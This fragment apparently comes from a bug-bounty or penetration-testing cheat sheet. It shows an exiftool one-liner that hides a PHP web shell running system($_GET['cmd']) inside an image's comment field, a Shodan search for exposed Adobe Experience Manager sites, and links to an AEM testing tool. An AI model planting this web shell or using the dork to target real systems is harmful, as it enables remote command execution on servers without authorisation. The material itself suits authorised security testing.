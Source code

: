       ```php
      exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
      ```

#### **Adobe Experience Manager (AEM) Configuration Testing**

Shodan Dork:

`http.component:"Adobe Experience Manager"`

Resources\
[AEM Hacker Tool](https://github.com/0ang3el/aem-hacker)\
[SlideShare presentation on AEM by 0ang3el](https://www.slideshare.net/0ang3el/aem-hacker-approaching-adobe-experience-manager-webapps-in-bug-bounty-programs)
